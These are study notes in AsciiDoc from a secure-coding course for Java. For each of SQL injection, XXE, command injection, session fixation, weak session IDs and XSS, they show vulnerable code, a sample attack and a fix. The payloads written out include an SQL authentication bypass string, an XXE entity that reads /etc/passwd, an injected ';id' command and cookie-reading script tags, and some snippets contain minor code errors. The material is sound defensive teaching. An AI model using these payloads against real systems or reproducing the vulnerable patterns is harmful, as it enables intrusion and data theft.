 = Security code bashing
Thomas SCHWENDER <https://github.com/ardemius[@ardemius]>
// Handling GitHub admonition blocks icons
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]
:imagesdir: images
:resourcesdir: resources
:source-highlighter: highlightjs
// Next 2 ones are to handle line breaks in some particular elements (list, footnotes, etc.)
:lb: pass:[<br> +]
:sb: pass:[<br>]
// check https://github.com/Ardemius/personal-wiki/wiki/AsciiDoctor-tips for tips on table of content in GitHub
:toc: macro
:toclevels: 3
// To turn off figure caption labels and numbers
//:figure-caption!:
// Same for examples
//:example-caption!:
// To turn off ALL captions
:caption:

toc::[]

Those courses come from the *Security Codebashing* of *Checkmarx*. +
(*Codebashing* is a hands-on, interactive solution that fits into developers' daily routines).

A free, incomplete, version is available at https://free.codebashing.com/.

== Java Classic

=== Injection

==== SQL Injection

SQL Injection is a type of application security vulnerability whereby a malicious user is able to manipulate the SQL statements that the application sends to the backend database server for execution. A successful SQL injection attack exposes the data of the underlying database directly to the attacker. Play and Learn...

.BAD way to check authentication through a SQL statement
[source,java]
----
String email = request.getParameter("email");
String password = request.getParameter("password");

String sql = "select * from users where (email ='" + email +"' and password ='" + password + "')";

Connection connection = pool.getConnection();
Statement statement = connection.createStatement();
ResultSet result = statement.executeQuery(sql);

if (result.next()) {
    loggedIn = true;
    // Successfully logged in and redirect to user profile page
} else {
    // Auth failure - Redirect to Login Page
}
----

* The string variable sql is then declared, which represents the SQL query used to authenticate Kevin's credentials. +
Note, that Kevin's email and password values are concatenated to build the final query.
* The SQL query defined in sql string variable is then executed by invoking the executeQuery method. This method executes our query against the backend SQL server and returns a ResultSet object which is checked on line 10 through the if/else block. +
Finally, should Kevin's credentials match, the loggedIn variable is set to true and she is redirected to her profile page.

With the previous code, if we try as password the string `' or 1=1)#'`, here is what the SQL statement will look like:

.SQL injection attack example
[source,SQL]
----
String sql = "select * from users where (email ='" + email +"' and password ='" + password + "')";
​
// Below is the raw query sent to the DB:
"SELECT * FROM users WHERE (email = 'kevin@noob.com' AND password = '' or 1=1)#')"
----

* Because this statement is both syntactically valid and `OR 1=1` always returns true, *the authentication mechanism is bypassed*.

The remediation to this issue is the use of *prepared statements*.

Prepared statements (aka parameterized queries) are the best mechanism for preventing SQL injection attacks.

*Prepared statements are used to abstract SQL statement syntax from input parameters*. Statement templates are first defined at the application layer, and the parameters are then passed to them.

Aside from a better protection against SQL injection attacks, prepared statements offer *improved code quality* from a legibility and maintainability perspective due to the *separation of the SQL logic from its inputs*.

==== XXE - XML eXternal Entity

*XML External Entity* (XXE) Processing is a type of application security vulnerability whereby a malicious user can *attack poorly configured/implemented XML parser within an application*. +
Malicious external entity references can be forced by an attacker, which results in unauthorized read-access to sensitive files on the server that the XML parser runs from. Denial of Service is another potential outcome. Play and Learn...

In this interactive tutorial you will understand how XML eXternal Entity (XXE) processing attacks are used to compromise the security of a web application, and how to write code more securely to protect against this type of attack.

NOTE: Throughout this module we will use the following terms interchangeably: XML Parser, SAX Parser and XML Processor.

.classic XML trade file
[source,xml]
----
<trades>
    <metadata>
        <name>Apple Inc</name>
        <stock>APPL</stock>
        <trader>
            <name>C.K Frode</name>
        </trader>
        <units>1500</units>
        <price>106</price>
        <name>Microsoft Corp</name>
        <stock>MSFT</stock>
        <trader>
            <name>C.K Frode</name>
        </trader>
        <units>5000</units>
        <price>45</price>
        <name>Amazon Inc</name>
        <stock>AMZN</stock>
        <trader>
            <name>C.K Frode</name>
        </trader>
        <units>4500</units>
        <price>195</price>
    </metadata>
</trades>
----

An XXE attack works by taking advantage of a feature in XML, namely *XML eXternal Entities (XXE)* that *allows external XML resources to be loaded within an XML document*. +
By submitting an XML file that defines an external entity with a file:// URI, an attacker can effectively trick the application's SAX parser into reading the contents of arbitrary file(s) that reside on the server-side filesystem.

.Malicious XML file
[source,xml]
----
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY bar SYSTEM "file:///etc/passwd" >]>
<trades>
  <metadata>
      <name>Apple Inc</name>
      <stock>APPL</stock>
      <trader>
          <foo>&bar;</foo>
          <name>C.K Frode</name>
      </trader>
      <units>1500</units>
      <price>106</price>
      <name>Microsoft Corp</name>
      <stock>MSFT</stock>
      <trader>
          <name>C.K Frode</name>
      </trader>
      <units>5000</units>
      <price>45</price>
      <name>Amazon Inc</name>
      <stock>AMZN</stock>
      <trader>
          <name>C.K Frode</name>
      </trader>
      <units>4500</units>
      <price>195</price>
  </metadata>
</trades>
----

* The DOCTYPE foo declaration references an external Document Type Definition (DTD) file, which we have named foo
* The XML declaration ELEMENT foo ANY declares that foo DTD can contain any combination of parsable data.
* Finally we use the XML declaration ENTITY to load additional data from an external resource. The syntax for the ENTITY declaration is ENTITY name SYSTEM URI where URI is the full path to a remote URL or local file. In our example we define the ENTITY tag to load the contents of "file:///etc/passwd"
* The following line maps our tag foo to the external entity &bar; that points to "file:///etc/passwd"
* When this XML document is processed by BatchTRADER's SAX parser, any instances of &bar; will get replaced by the contents of /etc/passwd file.

.Vulnerable code
[source,java]
----
public class TradeDocumentBuilderFactory {
    public static DocumentBuilderFactory newDocumentBuilderFactory() {
        DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
        try {
            documentBuilderFactory.setFeature("http://xml.org/sax/features/external-general-entities", true);
            documentBuilderFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", true);
        } catch(ParserConfigurationException e) {
            throw new RuntimeException(e);
        }
        return documentBuilderFactory;
    }
}
----

* The DocumentBuilderFactory class further contains a setFeature(String,boolean) method which can be used to set features on the underlying SAX parser.
* In this example the developers have configured the SAX parser using the setFeature method to enable loading of external-general-entities by setting it's value to true
* Similarly, the SAX parser has also been configured to process external-parameter-entities entities. Both of these options allow the SAX parser to load external entities, which when specified within our trade.xml file can be abused by an attacker to read arbitrary system files. Were these set to false the SAX parser would automatically reject the referencing of external entities.

Because user supplied XML input comes from an "untrusted source" it is very difficult to properly validate the XML document in a manner to prevent against this type of attack. +
Instead the XML processor should be configured to use only a locally defined Document Type Definition (DTD) and *disallow any inline DTD that is specified within user supplied XML document(s)*. +
Due to the fact that there are numerous XML parsing engines available, each has its own mechanism for disabling inline DTD to prevent XXE. You may need to search your XML parser's documentation for how to "disable inline DTD" specifically.

Let's see how the above fix can be applied to our vulnerable example to remediate the XXE vulnerability.

.Remediation
[source,java]
----
public class TradeDocumentBuilderFactory {
​
    public static DocumentBuilderFactory newDocumentBuilderFactory() {
        DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
        try {
//              documentBuilderFactory.setFeature("http://xml.org/sax/features/external-general-entities", true);
//              documentBuilderFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", true);
                documentBuilderFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
                documentBuilderFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
                documentBuilderFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);    
        } catch(ParserConfigurationException e) {
            throw new RuntimeException(e);
        }
        return documentBuilderFactory;
    }
}
----

* *The most robust method to protect against XXE attacks is to configure the applications XML parser to not allow DOCTYPE declarations*. +
This is done by setting the parsers disallow-doctype-decl parameter to true. With this set, an exception occurs if our trade.xml contains a DOCTYPE declaration and parsing stops, preventing the vulnerability from exposing sensitive information.
* However, if DOCTYPE declarations are required by the application, a good alternative is to configure the server side SAX parser to disallow declaring of external entities by setting the value for external-general-entities to false
* Similarly, we can also disable external-parameter-entities via the setFeature method.

==== Command Injection

A Command Injection vulnerability, when exploited by a malicious user, results in execution of arbitrary system commands on the host operating system. Command Injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers, etc) to a system command. The malicious system command is run server side with the same privileges as the application.

To create the analytical report, the web application's server-side code invokes a custom C++ application called statlab to perform the computationally intensive statistical analysis.

.Vulnerable code
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure command execution function in Java
//
​
public class CommandExecuter {
    public string executeCommand(String userName)
    {
        try {
            String myUid = userName;
            Runtime rt = Runtime.getRuntime();
            rt.exec("/usr/bin/statlab " + ”-“ + myUid); // Call statlab with Kevin's username
​
            // process results for userID and return output in HTML.
            // ...
​
        }catch(Exception e)
        {
            e.printStackTrace();
        }    
    }
}
----

* The executeCommand method calls the `java.lang.Runtime.exec()` function which invokes the /usr/bin/statlab application. The `exec()` method further accepts myUID as a parameter, whose value is passed to statlab program as an argument. +
For Kevin's profile the resulting string executed by `exec()` would be: `/usr/bin/statlab -kevin`

To understand how command injection attacks work, let us analyze the URL passed to our server-side code.

    https://tradeadmin.codebashing.com/console/execute?username=Kevin

When Kevin generates a Risk Analysis report, the TradeADMIN server parses the above URL, specifically the query string `username=Kevin` which is then passed to the function to generate analytical reports for Kevin's trading account.

If, in the previous URL, we append the ";id" string:

    https://tradeadmin.codebashing.com/console/execute?username=Kevin;id

In addition to the classic result (the analytical report), an Unexpected Output Error is also displayed:

----
ERROR: Unexpected output encountered: uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=root:sysadm_r:sysadm_t
----

This error comes from the previous "id" string that was added at the end of the URL, and which *has been executed as the UNIX `id` command*, that returns the user id for the user that ran the command.

* In the previous code, the executeCommand method initializes a runtime environment by invoking Runtime.getRuntime() method that allows the TradeADMIN application to interface with it's runtime environment.
* Finally executeCommand invokes the statlab program via `exec()`, passing Kevin's modified query string `Kevin;id` as an argument through myUid string variable. The final command executed on TradeADMIN server would be: `statlab -Kevin;id`
{lb}
However note that `myUid` value is not validated in any way before being passed to the `exec()` method. Given that the ";" character is interpreted as a command separator in UNIX like operating systems, *Kevin's query string is interpreted by `exec()` method as two separate commands* i.e statlab -Kevin and id

.Remediation
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure command execution function in Java
//
​
public class CommandExecuter {
    public string executeCommand(String userName)
    {
        try {
            String myUid = userName;
            if (!Pattern.matches("[-A-Za-z]+", myUiD)) {  
                return false;
        }
            Runtime rt = Runtime.getRuntime();
            rt.exec("/usr/bin/statlab " + ”-“ + myUid); // Call statlab with Kevin's username
​
            // process results for userID and return output in HTML.
            // ...
​
        }catch(Exception e)
        {
            e.printStackTrace();
        }
    }
}
----

* In our modified code example, an additional check is introduced which performs input validation against the myUiD string variable. To accomplish this, we make use of Java's `Pattern.matches()` method to run a regular expression search on myUiD variable, identifying non alphanumeric characters e.g. `; , < , > , " , ' , &` .
{lb}
Should any non alphanumeric characters be encountered, the `if` check will fail and return, thus preventing malicious control shell characters from being passed to the `statlab` program.

[NOTE]
======
Note: Although the proposed fix is sufficient to remediate our vulnerable example, the overall logic and security design for executeCommand() method can be significantly improved by not accepting user supplied myUiD value through the username parameter.

A better approach would be to extract Kevin's username from a database record or a static index variable that is set during Kevin's account creation process, which can then be passed as an argument to the statlab program for execution.
======

Some examples of OS Command Injection attacks can be found on Checkmarx resources https://www.checkmarx.com/knowledge/knowledgebase/os-command-injection

=== Broken Authentication and Session Management

==== Session Fixation

*Session Fixation* is a type of application vulnerability where *an application does not correctly renew session tokens when changing from a pre-login to post-login state*. The same pre-login session token should not be used post-login, otherwise an attacker has the potential to steal authenticated sessions of legitimate users. When a session of one user is stolen by another, it is known as a "hijacked session". Play and Learn...

As an example, when trying to login to a Web application, the URL returned by the server could look like this one:

    https://tradesupport.codebashing.com/trade_support/log-in?app_session_id=tWwO8aTiYZXJy2ZW2zNsVOVVQD6POgrW

The web application has assigned Kevin a unique *session identifier* (also known as a *session token*). +
In our example, Kevin's session identifier is set to: `tWwO8aTiYZXJy2ZW2zNsVOVVQD6POgrW`

An attacker will also get an session token when clicking on the Web application "login" button :

    https://tradesupport.codebashing.com/trade_support/log-in?app_session_id=y4hJoGIcuV1v1kSKwo5y9iLDKRiSHobs

The attacker then send this URL to a user, asking him to login with it (for some false reasons)

Kevin has logged in successfully, and the attacker, that was keeping regularly refreshing the login page, has successfully bypassed the authentication and accessed kevin's web session without trying to guess or brute force her credentials. +
Because of this *Session Fixation* attack, the attacker has managed to *hijack* Kevin's session!

.Vulnerable code
[source,java]
----
private Boolean authenticate(HttpServletRequest request, String credential, String password) {
        try {
            request.getSession(true);
            if (request.getUserPrincipal() === null) {
                request.login(credential, password);
            }
            return true;
​
        } catch (ServletException ex) {
            log.log(Level.WARNING, "Error when authenticate", ex);
        }
        return false;
}
----

The authenticate() function calls login() which verifies Kevin's credentials. However his existing session is not invalidated before invoking the login() method.

This means his pre-login session identifier would remain unchanged post login.

Given that the attacker knows Kevin's pre-authentication session value, he can successfully impersonate his authenticated session once Kevin has logged onto the TradeSUPPORT application.

A combination of the following best practices could help to defend against Session Fixation attacks:

    1. Ensure that only *server-generated session* values are accepted by the application.
    2. Upon a successful login, *invalidate the original session token*, and re-issue a new session token.
    3. *Prevent* the application from accepting session tokens via *GET* or *POST* requests and instead store session values within HTTP cookies only.

.Remediation
[source,java]
----
private Boolean authenticate(HttpServletRequest request, String credential, String password) {
        // Prevent Session Fixation (http://en.wikipedia.org/wiki/Session_fixation)
        HttpSession session = request.getSession(false);
        if (session != null) {
          session.invalidate();
        }
        try {
            request.getSession(true);
            if (request.getUserPrincipal() === null) {
                request.login(credential, password);
            }
            return true;
​
        } catch (ServletException ex) {
            log.log(Level.WARNING, "Error when authenticate", ex);
        }
        return false;
}
----

Here a new session identifier is generated for Kevin by invoking request.getSession(true) method, ensuring his *session identifier gets recycled prior to authentication*.

Should the attacker now attempt a session fixation attack against Kevin, it would fail because the session identifier has changed from it's original value that was known previously to the attacker, thus preventing the hijacking of Kevin's session.

.Reminder
NOTE: Session fixation happens when the application uses the same session token before and after the user authenticates. After authentication, the application just upgrades the token to give access to the functionality that requires authentication.

==== Use Of Insufficiently Random Values

*Insufficiently Random Values* are an application security vulnerability whereby the application generates predictable values in sensitive areas of code that absolutely require strict randomness (unpredictability). As a result it may be possible for an attacker to predict the next value generated by the application to defeat cryptographic routines, access sensitive information, or impersonate another user.

.Vulnerable code
[source,java]
----
// Generate and return a new session identifier.
​
protected String newSession()
{
    long now = System.currentTimeMillis();
​
    return encode(now);
}
​

private String encode(long time)
{
    return new String(Long.toString(time));
}
----

The best way to remediate the *Insufficiently Random Values* vulnerability is to use an algorithm that is currently considered to be strong by experts in the field, and select well-tested implementations with the seeds of the adequate length.

In general, if a *pseudo-random number generator* is not advertised as being cryptographically secure, it should not be used in security-sensitive contexts.

Pseudo-random number generators can produce predictable numbers if the generator is known and the seed can be guessed. A *256-bit seed* is a good starting point for producing a "random enough" number.

.Remediation
[source,java]
----
// Generate and return a new session identifier.
​
protected String newSession()
{
    //  long now = System.currentTimeMillis();
        SecureRandom rand = new SecureRandom();
        byte bytes[] = new byte[20];    
        rand.nextBytes(bytes);  
        String cookie = new String(Hex.encodeHex(bytes));   
        return cookie   
    //  return encode(now);
}
​
    //private String encode(long time)
    //{
    //  return new String(Long.toString(time));
    //}
----

In Java, generating a series of cryptographically secure random numbers can be achieved by using the `java.security.SecureRandom` class. 

In our modified code example, we first create a SecureRandom object and assign it to the variable `rand`.
Then we call `rand.nextBytes()` method that generates 20 bytes of random data which is hex encoded using the `encodeHex()` method on line 11 and assigned to the string variable cookie.

* *What are the consequences of insufficiently random values usage?*
    ** Session ID could be predicted and an attacker could access the application as another user

=== Cross-Site Scripting

==== Reflected Xss

Unlike Persistent XSS, with *Reflected Cross-site Scripting (XSS)* attacker-supplied script code is never stored within the application itself. Instead the attacker crafts a *malicious request to the application to illicit a single HTTP response* by the application that contains the attacker's supplied script code. Successful attacks require victim users to open a maliciously crafted link (which is very easy to do). 

Bob is an attacker and wants to execute his malicious JavaScript code in Alice's browser. +
If Bob is successful in his attack, he can steal Alice's session token, thus gaining access to the application using the same session as Alice!

Using a *stolen session token to access an application* as another user is known as *Session Hijacking*.

Bob writes a malicious email to Alice, asking her to check out a new research report at the TradeSEARCH portal.

----
Hi Alice,

TradeSEARCH portal was recently updated with some interesting research papers provided by our leading analysts. To save you time, use the link below:

https://tradesearch.codebashing.com/projects?search=%3Cscript%3Ealert('You got hacked')%3C%2Fscript%3E

Kind Regards,
Bob
----

Alice would normally ignore unsolicited emails, but the information looks relevant to her and she decides to open it. +
When Alice clicks on the link that Bob sent her, the website loads as expected. +
However, Bob's malicious JavaScript code was also executed in Alice's browser.

NOTE: This ability to *execute a malicious script in a user's browser* is known as a *Cross-site Scripting vulnerability*.

Let's now analyze how the vulnerability occurred. +
Note that if Bob was a smarter attacker, he could have stolen Alice's session instead of just displaying a pop-up window in her browser.

.Vulnerable code
[source,html]
----
//
// Pseudocode for Project Search JSP webpage
//
​
<c:when test="${f:h(allRecordCount) != 0}">
<jsp:include page="searchResults.jsp"/>
</c:when>
<c:otherwise>
  <h4>No results found for: </h4>
  <p><em><strong><%= request.getParameter("search") %></strong></em></p>
</c:otherwise>
----

* In order to generate the search results web page, TradeSEARCH developers have used the JSP Standard Templating Library (JSTL) which provides standard actions and methods for formatting and rendering HTML pages.
* When rendering a user's search result web page, the `c:when` conditional tag is called to check if any search results were returned by the server, which are then formatted and rendered by searchResults.jsp on line 6
* However, should no matching results be found for a specified keyword, the `c:otherwise` conditional tag will render the HTML markup on line 9 and 10 that renders a "No results found for:" message followed by the user supplied search phrase.
* To render the "No results found for:" error message followed by our search phrase string, `request.getParameter()` method is called to extract the search parameter from the URL which then gets directly rendered as a JSP expression. +
e.g. For `projects?search=sometext` the JSP expression `request.getParameter("search")` will yield sometext which is finally rendered in the user's browser.
* Unfortunately, *JSP's expression language does not escape expression values*, so if the search parameter contained HTML formatted data, *Java's EL expression will simply render this string* without escaping or encoding it first. +
Finally when the "No results found for:" message is displayed, the search parameters HTML data string will also get rendered, thereby allowing code injection in the users browser context.

The *main Reflected XSS remediation strategy* is to treat all the user input as a text, not as a code. This can be achieved by the following actions:

    1. *Escape user input* using language-specific or framework-specific instruments, like templates or contextual escaping. Usually, these mechanisms are enabled by default, so make sure not to disable them.

    2. Know all the locations where user input is used, and try to *avoid returning unsanitized user input* to potentially dangerous locations like HTML body and attributes, javascript, GET parameters, URLs, links, CSS.

    3. Use *additional security controls* that help to prevent XSS in case escaping controls fail or are missing.

        * *`HTTPOnly` cookie flag*. This flag prevents Javascript from accessing the cookie content, thus protecting it from being stolen if Reflected XSS is present.
        * *Content Security Policy HTTP Header*. This header restricts sources of all the page's content, including javascript code, to the *whitelist of sources*, thus making XSS exploitation more hard to perform.
        * *X-XSS-Protection HTTP Header*. This header prevents browsers from loading a page if they detect Reflected XSS exploitation.

.Remediation
[source,html]
----
//
// Pseudocode for Project Search JSP webpage
//
​
<c:when test="${f:h(allRecordCount) != 0}">
<jsp:include page="searchResults.jsp"/>
</c:when>
<c:otherwise>
  <h4>No results found for: </h4>
    <p><em><strong><c:out value="${<%= request.getParameter("search") %>}"/></strong></em></p>
//    <p><em><strong><%= request.getParameter("search") %></strong></em></p>
</c:otherwise>
​
----

The *most effective method to protect against XSS attacks* is by using JSTL's `c:out` tag or `fn:escapeXml()` EL function when displaying user-controlled input. +
These tags will automatically *escape and encode HTML characters* within the rendered HTML including `<` , `>` , `"` , `'` and `&` thereby preventing injection of potentially malicious HTML code.

* *What is the necessary condition for Reflected XSS attack?*
    ** *User input is returned in HTTP response to the browser*, e.g. in an error or a search result +
    The core concept of reflected XSS is exploiting user input reflected to user's browser in errors, search results, etc. The attacker tricks a user to open a vulnerable site with a malicious script inserted into the input field. This script is reflected back to user's browser and is treated by the browser as a part of the site.

=== Stored (Persistent) XSS

*Persistent Cross-Site Scripting (XSS)* is an application vulnerability whereby a malicious user tricks a web application into *storing attacker-supplied script code which is then later served* to unsuspecting user(s) of the application. The attacker-supplied script code runs on the client-side system of other end user(s) of the application. This type of vulnerability is widespread and affects web applications that utilize (unvalidated) user-supplied input to generate (unencoded) application output, that is served to users. 

Although Bob is a legitimate user of the application, he plans to attack other users. +
Log in as Bob with the following credentials:

    * Username: bob@bank.com
    * Password: bob123

Bob wants to add new contact records to the Partners List. +
When the New Contact page opens, Bob decides to put the malicious script into one of the input fields. He created the following script:

    <script>alert(document.cookie)</script>

Then he pastes it into the Name input field and clicks Save to send the contents of the form to the server and save the new contact to the application's database.

Bob successfully saved this unusual contact record to the application's database. +
To investigate the impact on other users of the application, we need first to log out from Bob's account and close his application session.

Alice opens the application to look up the most recent list of contacts. +
Log in as Alice using her authentication credentials:

    * Username: alice@bank.com
    * Password: alice123

Interesting! When Alice logs in to the application to view contact records, something strange happens – a browser alert appears. +
It seems that the malicious script that Bob saved in the contact record was executed in Alice's browser. This script code was the following:

    <script>alert(document.cookie)</script>

Let's look at the vulnerable code to understand how the Stored Cross-Site Scripting attack works at the code level :

.Vulnerable code
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure encoding/decoding in Java
//
​
<table>
    <c:forEach var="contact" items="${contacts}">
        <tr>
              <td>${contact.name}</td>
              <td>${contact.title}</td>
              <td>${contact.number}</td>
        </tr>
    </c:forEach>
</table>
----

Each contact object is rendered within the td tags using Java's JSP expression language (EL) syntax `${}`. This feature allows outputting the result of a contact object by first evaluating the object expression.

For example, to extract Alice's name, the expression `<td>${contact.name}</td>` will be evaluated and replaced by the string Alice in the final HTML output markup.

Unfortunately, *JSP's EL function does not escape expression values*, so if Bob saved a contact card, whose name , title or number field contained HTML formatted data, Java's EL expression will simply render the input without escaping or encoding it first. +
Finally when the web page is loaded by Alice, Bob's malicious HTML will get rendered in Alice's browser.

To *defend against Stored Cross-Site Scripting attacks*, it is important to *ensure that user-supplied data output is encoded before being served* by the application to other users.

*Output encoding* effectively works by escaping user-supplied data immediately before it is served to users of the application.

When the data is correctly escaped before being served to the user for display in their browser, the browser does not interpret it as code and instead interprets it as data, thus ensuring it does not get executed.

For example, the string `<script>` is converted to `&lt;script&gt;` when properly escaped and is simply rendered as text in the user's browser window rather than being interpreted as code.

.Remediation
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure encoding/decoding in Java
//
​
<table>
    <c:forEach var="contact" items="${contacts}">
        <tr>
//              <td>${contact.name}</td>
//              <td>${contact.title}</td>
//              <td>${contact.number}</td>
                <td><c:out value="${contact.name}"/></td>
                <td><c:out value="${contact.title}"/></td>  
                <td><c:out value="${contact.number}"/></td> 
        </tr>
    </c:forEach>
</table>
----

The *most effective method to protect against XSS attacks* is by using JSTL's `c:out` tag or `fn:escapeXml()` EL function when displaying user-controlled input. These tags will automatically escape and encode HTML characters within the rendered HTML including `<` , `>` , `"` , `'` and & thereby preventing injection of potentially malicious HTML code.

How does an attacker exploit Stored XSS?

    * Attacker sends a malicious script to a server using a vulnerable functionality (e.g. comments), and the script is successfully saved to the server. Then this script is served to users and executed in their browsers. +
    Stored XSS is possible when a malicious script is saved on the server without sanitization and then served to the application users unsanitized.

=== DOM Cross Site Scripting

*Document Object Model (DOM) Based XSS* is a type of XSS attack wherein the attacker's payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

The vulnerable application pane loads the TradeNEWS application, an online financial news platform that provides in-depth analysis of financial products, market indexes, and currencies.

Alice is a guest (anonymous) user of the TradeNEWS system. She has just loaded the application in her web browser. +
Alice decides to read a news report and proceeds by clicking the Thursday Share Tips news article.

It appears that Alice is not a paid member of the TradeNEWS portal, so she is redirected to a login screen to sign up for a paid membership or log in with existing credentials.

Notice that a "welcome" message:

    Hello guest! Please log in or sign up to access news stories
    
is displayed as a part of the TradeNEWS login screen. Before we proceed with our DOM XSS attack, let's quickly analyze the source code used to generate this message.

[source,javascript]
----
//
// Pseudocode for Landing web page
//
<h6>
<script>
​
    var name = document.location.hash.split('#')[1]; 
//https://tradenews.codebashing.com/guests/landing#guest
​
    document.write("Hello " + name + "! Please login or signup to access news stories");    
​
</script>
</h6>
----

The javascript code `document.location.hash.split('#')[1]` returns the anchor part of the TradeNEWS URL which is set to `#guest` +
(TradeNEWS URL : `https://tradenews.codebashing.com/guests/landing#guest`)

The code `split('#')[1]` extracts the string "guest" and assigns it to name variable.

Finally, the name variable is concatenated with the alert message text and written to the Document Object Model (DOM) using javascript's `document.write()` method.

Before we proceed with the attack, go ahead and try replacing *guest* with the string *myinput* in the address bar of the fake browser. Keep an eye on the code window to see the code being updated in real time with your input string.

Bob is an attacker and has just discovered a DOM XSS vulnerability within the TradeNEWS website, specifically in the JavaScript code responsible for displaying the "welcome” message. +
Bob knows that by exploiting the DOM XSS vulnerability he can trick Alice into submitting her credit card details to Bob, but how can he organize this?

